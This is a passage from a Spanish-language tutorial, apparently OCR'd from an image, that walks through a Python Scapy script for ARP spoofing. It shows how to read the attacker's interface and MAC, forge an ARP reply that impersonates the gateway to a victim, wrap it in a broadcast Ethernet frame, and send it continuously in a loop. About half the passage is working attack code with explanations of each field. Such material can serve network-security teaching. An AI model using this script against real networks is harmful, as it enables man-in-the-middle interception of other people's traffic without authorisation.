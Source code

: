 ```python
interface_red = conf.iface
source_mac = get_if_hwaddr(interface_red)
```

> - `conf.iface`: obtiene la interfaz de red por defecto (por ejemplo, `eth0` o `wlan0`).
>     

- `get_if_hwaddr()`: obtiene la dirección MAC asociada a esa interfaz (la del atacante).
    

---

### 🔹 4. Crear un paquete ARP falsificado (spoofed)

```python
arp_respuesta = ARP(
    pdst=objectivo,
    hwdst="ff:ff:ff:ff:ff:ff",
    psrc=gateway_ip,
    hwsrc=source_mac
)
```

> Se construye un paquete ARP **falso**:

- `pdst`: IP destino, la víctima.
    
- `hwdst`: MAC destino (broadcast, para que todos lo escuchen).
    
- `psrc`: IP del router (el atacante suplanta al gateway).
    
- `hwsrc`: MAC del atacante (haciéndose pasar por el gateway).
    

👉 **El truco aquí es que la víctima actualizará su caché ARP**, creyendo que el gateway tiene ahora la MAC del atacante.

---

### 🔹 5. Encapsular en un paquete Ethernet

```python
paquete_arp = Ether(dst="ff:ff:ff:ff:ff:ff") / arp_respuesta
```

> Se encapsula el paquete ARP dentro de un paquete Ethernet con dirección de destino **broadcast**. Esto garantiza que todos los dispositivos en la red vean el paquete.

---

### 🔹 6. Envío continuo del paquete (ataque en loop)

```python
try:
    print(f"Iniciando arp spoofing en {objectivo}")
    sendp(paquete_arp, iface=interface_red, loop=1, inter=0.5)
except KeyboardInterrupt:
    print("Spoofing terminado")
```
